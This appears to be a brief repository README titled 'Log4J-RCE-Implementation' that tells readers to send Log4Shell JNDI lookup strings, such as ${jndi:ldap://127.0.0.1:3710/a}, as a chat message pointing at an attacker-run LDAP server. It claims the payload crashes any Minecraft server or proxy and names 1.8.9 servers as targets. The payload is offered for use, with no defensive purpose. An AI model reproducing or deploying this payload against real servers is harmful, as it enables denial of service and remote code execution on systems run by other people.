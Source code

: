 # Log4J-RCE-Implementation

Basically run this (replacing the ip and port to the server in this repo):
${jndi:ldap://127.0.0.1:3710/a}

For now, this is capable of crashing any MC server or proxy

Sending a single chat message "${jndi:ldap://192.168.1.123:3710/owo}" on any 1.8.9 server will crash.



https://github.com/pimps/CVE-2017-5645
